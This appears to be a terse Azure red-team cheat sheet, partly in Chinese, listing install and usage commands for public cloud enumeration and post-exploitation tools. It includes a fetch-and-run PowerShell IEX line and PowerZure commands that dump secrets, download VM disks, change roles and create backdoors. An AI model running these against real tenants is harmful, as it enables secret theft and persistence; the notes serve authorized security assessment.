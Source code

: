 #### ROADTool
  	>pipenv shell
	>roadrecon auth [-h] [-u USERNAME] [-p PASSWORD] [-t TENANT] [-c CLIENT] [--as-app] [--device-code] [--access-token ACCESS_TOKEN] [--refresh-token REFRESH_TOKEN] [-f TOKENFILE] [--tokens-stdout]
	>roadrecon gather [-h] [-d DATABASE] [-f TOKENFILE] [--tokens-stdin] [--mfa]
	>roadrecon auth -u test@<TENANT NAME>.onmicrosoft.com -p <PASSWORD>
	>roadrecon gather
	>roadrecon gui
#### StormSpotter
  	https://github.com/Azure/Stormspotter
#### Azure Hound
	https://github.com/BloodHoundAD/AzureHound
	>. C:\Tools\AzureHound\AzureHound.ps1
	>Invoke-AzureHound -Verbose
	GUI 
	bolt://localhost:7687
	Username: neo4j
	Password: BloodHound
#### Azucar
  	Azucar 自动收集各种配置数据并分析与特定订阅相关的所有数据
	使用至少对要访问的资产具有读取权限的帐户
	git clone https://github.com/nccgroup/azucar.git
	PS> Get-ChildItem -Recurse c:\Azucar_V10 | Unblock-File

	PS> .\Azucar.ps1 -AuthMode UseCachedCredentials -Verbose -WriteLog -Debug -ExportTo PRINT
	PS> .\Azucar.ps1 -ExportTo CSV,JSON,XML,EXCEL -AuthMode Certificate_Credentials -Certificate C:\AzucarTest\server.pfx -ApplicationId 00000000-0000-0000-0000-000000000000 -TenantID 00000000-0000-0000-0000-000000000000
	PS> .\Azucar.ps1 -ExportTo CSV,JSON,XML,EXCEL -AuthMode Certificate_Credentials -Certificate C:\AzucarTest\server.pfx -CertFilePassword MySuperP@ssw0rd! -ApplicationId 00000000-0000-0000-0000-000000000000 -TenantID 00000000-0000-0000-0000-000000000000

	解析特定用户名的 TenantID
	PS> .\Azucar.ps1 -ResolveTenantUserName user@company.com
#### Azurite Explorer和Azurite Visualizer：Microsoft Azure云中的枚举和侦察活动
  	>git clone https://github.com/mwrlabs/Azurite.git
	>git clone https://github.com/FSecureLABS/Azurite
	>git submodule init
	>git submodule update
	>PS> Import-Module AzureRM
	>PS> Import-Module AzuriteExplorer.ps1
	>PS> Review-AzureRmSubscription
	>PS> Review-CustomAzureRmSubscription
#### MicroBurst
  	包括支持 Azure 服务发现、弱配置审计和后利用操作（例如凭据转储）的函数和脚本
	>git clone https://github.com/NetSPI/MicroBurst
	PS C:> Import-Module .\MicroBurst.psm1
	PS C:> Import-Module .\Get-AzureDomainInfo.ps1
	PS C:> Get-AzureDomainInfo -folder MicroBurst -Verbose
#### SkyArk
  	发现扫描的 Azure 环境中的最高特权用户 - 包括 Azure shadow admin
	要求：
	Azure 目录的只读权限
	订阅的只读权限
	需要 AZ 和 AzureAD 模块或管理员权限
	$ git clone https://github.com/cyberark/SkyArk
	$ powershell -ExecutionPolicy Bypass -NoProfile
	PS C> Import-Module .\SkyArk.ps1 -force
	PS C> Start-AzureStealth

	or in the Cloud Console

	PS C> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cyberark/SkyArk/master/AzureStealth/AzureStealth.ps1')  
	PS C> Scan-AzureAdmins  
#### PowerZure
  	>git clone https://github.com/hausec/PowerZure
	>ipmo .\PowerZure
	>Set-Subscription -Id [idgoeshere]

	Reader
	>Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails

	Contributor
	>Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
	>Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "build.xml"
	>Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
	>Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk

	Owner
	>Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest

	Administrator
	>Create-Backdoor, Execute-Backdoor